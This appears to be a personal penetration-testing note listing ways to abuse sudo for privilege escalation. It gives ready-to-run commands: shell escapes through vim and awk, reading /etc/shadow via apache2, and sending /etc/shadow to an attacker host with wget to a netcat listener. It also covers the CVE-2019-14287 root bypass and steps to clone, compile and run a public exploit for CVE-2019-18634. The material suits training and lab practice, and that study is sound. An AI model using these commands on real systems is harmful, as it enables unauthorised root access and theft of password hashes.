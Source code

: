 -- -
Ways I've abused sudo to get privesc laterally or vertically.
#### Enum
![[Dark Arts/Privesc/Enumeration/Sudo#^767678|Sudo]]
If it outputs custom scripts/software, you can look into creative ways to abuse it. Otherwise, check each program output on [GTFOBins](https://gtfobins.github.io) and it will let you know if software is vulnerable or not, and how to exploit it if it is vulnerable. 
#### Vim/Vi
```bash
sudo vim -c ":!/bin/sh"
```
#### awk
```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

#### Apache
Sometimes, you will have a program that shows up in the enum that does not show up as exploitable in GFTOBins, but that doesn't mean it isn't possible to abuse, in this case you can put in the software into google: `apache privesc exploit`
This may come up with something like the following with a way it can be abused to privesc, in this case you get a file read on a file we shouldn't be able to read:
```bash
sudo apache2 -f /etc/shadow
```
#### wget
Similarly to above, you may not see wget in GTFOBins directly, but you can use it to get file access to files locked to root, so you can abuse wget to send yourself a file (like `/etc/shadow`) that you should not have access to:
```bash
# on attack box
nc -nvlp <listening port>
nc -nvlp 8001

# on target
sudo wget --post-file=<file path> <attack ip>:<listening port>
sudo wget --post-file=/etc/shadow 10.10.10.10:8001
```
#### CVE-2019-14287
#cve-2019-14287
Happens because sudo doesn't check the supplied user id, so by giving it `-u#-1`, the expression returns the ID `0` which is root's ID, and since sudo doesn't verify this ID, it executes bash as root. You can change the expression to be any user ID and take over that account, this isn't exclusive to root. 
```bash
# for situation where you run:
sudo -l

# and get the following output:
# (ALL, !root) /bin/bash

# This means you can run bash with sudo for any user on the system EXCEPT root.
# Trivially exploit to get root:
sudo -u#-1 /bin/bash

# And boom you have root!
```
#### CVE-2019-18634
#cve-2019-18634
Buffer overflow vulnerability in sudo. Key component is the version of sudo and that the `pwfeedback` setting is on. 
##### Enum
![[Sudo#^297150]]
##### Prepare exploit
[Exploit Source](https://github.com/saleemrashid/sudo-cve-2019-18634)
```bash
git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
cd sudo-cve-2019-18634/
gcc -o exploit exploit.c
```
##### exploit
```bash
# literally just run the exploit on the target
./exploit
```

#### Resources
- [GTFOBins](https://gtfobins.github.io)
